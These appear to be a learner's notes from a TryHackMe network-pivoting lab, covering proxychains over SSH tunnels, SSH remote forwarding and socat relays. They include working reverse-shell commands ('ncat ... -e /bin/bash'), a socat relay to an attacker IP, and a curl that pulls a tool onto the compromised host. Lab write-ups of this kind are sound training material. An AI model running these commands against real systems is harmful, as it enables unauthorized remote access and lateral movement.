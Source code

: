 ```
socks4  127.0.0.1 8888 # From our machine to jumpbox1 (i.e. Prod-Serv) via this command you ran: ssh -f -N -D 127.0.0.1:8888 root@thomaswreath.thm
```


```
proxychains4 -f ~/new-proxychains.conf ssh jumpbox2.local
```


>[! bug] Important
As we can't do a forward proxy through ssh to jumpbox1

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

Reverse Shell

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```





# Socat

socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

### Set up a relay
```
socat tcp-listen:8000,fork tcp:10.50.88.33:4444 &
```

### Set up a reverse shell
```
./ncat_sardarji 127.0.0.1 8000 -e /bin/bash
```

![[Pasted image 20240725165921.png]]

So how to do the above process using SSH and proxychains

```
ssh -L 8080:10.50.88.33:443 root@thomaswreath.thm -i id_rsa
```

```
socks4 127.0.0.1 9000
```

```
proxychains curl http://10.50.88.33:8080/socat_sardarji -o socat_sardarji
```
